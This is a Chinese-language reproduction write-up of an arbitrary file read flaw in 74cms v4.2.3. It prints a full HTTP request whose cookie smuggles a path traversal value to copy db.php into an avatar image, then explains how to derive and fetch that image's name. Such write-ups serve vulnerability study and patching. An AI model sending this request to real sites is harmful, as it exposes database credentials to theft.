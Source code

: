 # 74cms v4.2.3 任意文件读取

## 一、漏洞简介
## 二、漏洞影响
74cms v4.2.3

## 三、复现过程
先尝试读取 db.php，向服务器post如下数据

```html
POST /index.php?m=&c=members&a=register HTTP/1.1
Host: www.0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.120 Safari/537.36 
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Cookie: members_bind_info[temp_avatar]=../../../../Application/Common/Conf/db.php; members_bind_info[type]=qq; members_uc_info[password]=xcxmiku; members_uc_info[uid]=123456; members_uc_info[username]=xcxmiku
Content-Type: application/x-www-form-urlencoded

ajax=1&reg_type=2&utype=2&org=bind&ucenter=bind
```

会返回如下数据

1.png

在/data/upload/avatar/年月/日文件夹下 会生成一张图片

2.png

这张图片的名称由id和时间戳的md5值构成，我们可以将Burp Suite上返回的时间转换为时间戳

3.png

不过这个时间可能会有误差，如果不行就把时间+-10

我post的id为654321，获取的时间戳为1571659588，将他们连在一起进行md5加密

4.png

成功获取图片名，然后访问

```html
https://www.0-sec.org/data/upload/avatar/1910/21/9aaa3653bf6ec9491bc002b52521962c.jpg 
```

保存该图片用文本打开就是 db.php 的内容。

### PS:
使用post提交，参数如下

5.png

在Header可获取到时间戳

6.png

### 可能会遇到的问题
#### post数据返回unicode编码
